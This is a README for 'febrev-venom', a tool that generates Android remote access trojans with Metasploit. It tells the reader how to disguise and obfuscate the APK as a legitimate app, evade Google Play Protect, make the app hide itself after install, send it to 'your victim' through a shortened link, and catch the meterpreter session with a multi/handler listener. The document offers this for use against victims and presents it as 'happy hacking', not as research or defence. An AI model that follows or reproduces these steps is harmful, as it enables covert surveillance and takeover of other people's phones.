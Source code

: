 #NEW VERSION 3.0
# febrev-venom updated to version 3.0
# added a new functionality found by me i.e, it will disappear itself after installation 

FEBREV venom(also called febrev-droidspy) is a tool to create android RATs through metasploit,changes the icon,package name,obfuscates the apk,makes it look like a legit app , signs the RAT apk ,  and send it to the victim via a link url over the INTERNET
IT CAN BYPASS GOOGLE PLAY PROTECT.............
ALSO THE APP CREATED BY MY TOOL CAN AUTOMATICALLY DISAPPEAR AFTER INSTALLING


*must run as root
*must run in debian-based linux distro like kali
#################################################################################################################
 USAGE:
   
   **come into the febrev-venom directory 
  
   chmod +x * 
   
   python3 installer.py
   
   ** now you can run febrev venom anywhere from the terminal by typing the command >>  febrev
   
   
   (OR)
    **come into the febrev-venom directory  
    then    
    
   python3 febrev-venom.py
   
   
 **use the generated link(the best) + /<your apk> and send it to your victim 
 then start your msfconsole 
 use exploit/multi/handler
 then set lhost and lport and start the meterpreter session
 **OR simply use the resource script generated automatically by the tool
   -> msfconsole -r <appname_listener.rc>
 # You can shorten the URL by :
    **1.open another terminal without closing the current one
    **2.copy the URL from the current terminal and type -> php shorturl.php <the copied url>
 
 
 happy hacking.....!!!!!
 
 ################################################################################################################
   
